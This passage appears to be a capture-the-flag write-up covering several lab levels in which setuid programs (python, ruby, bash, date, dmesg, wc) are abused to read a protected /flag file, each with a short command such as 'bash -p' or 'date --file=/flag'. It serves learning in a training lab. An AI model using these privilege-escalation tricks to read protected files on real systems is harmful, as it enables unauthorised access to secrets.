 This time we are using `python`.

Python!! Writing a simple script that reads `/flag` would do.

```python
from subprocess import *
Popen(["cat", "/flag"])
```

### level43

This time we are using `ruby`.

I had to write a short ruby script. 

```ruby
exec "cat /flag"
```

### level44

This time we are using `bash`.

In the lecture, the professor pointed out that shell programs like `bash` resets the EUID to the original UID. Adding `-p` when invoking disables that feature.

```bash
bash -p
cat /flag
```

### level45

This time we are using `date`.

This program also let's me to specify a file to print out the date inside the file. Although the contents in `/flag` are not in date format, the program still prints the contents as it gives error. 

```bash
date --file=/flag
```

### level46

This time we are using `dmesg`.

Same as above. View the system log using `/flag` as the input file.

```bash
dmesg --file=/flag
```

### level47

This time we are using `wc`.

`--files0-from` lets me to put `/flag` as the input.

```bash
wc --files0-from /flag
```
